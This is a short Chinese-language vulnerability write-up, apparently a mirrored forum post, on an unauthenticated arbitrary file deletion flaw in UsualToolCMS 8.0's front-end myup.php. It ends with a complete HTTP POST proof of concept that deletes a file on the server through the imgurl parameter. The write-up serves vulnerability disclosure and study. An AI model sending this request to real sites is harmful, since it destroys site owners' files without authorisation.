



# UsualToolcms 8.0 前台任意文件删除

> 原文：[https://www.zhihuifly.com/t/topic/3212](https://www.zhihuifly.com/t/topic/3212)

# UsualToolcms前台任意文件删除

## 一、漏洞简介

前台myup.php文件最后一段存在任意文件删除

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点：http://0-sec.org/myup.php



第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，





```
POST /UsualToolCMS/myup.php HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `get=delimg&imgurl=./1.php` 
```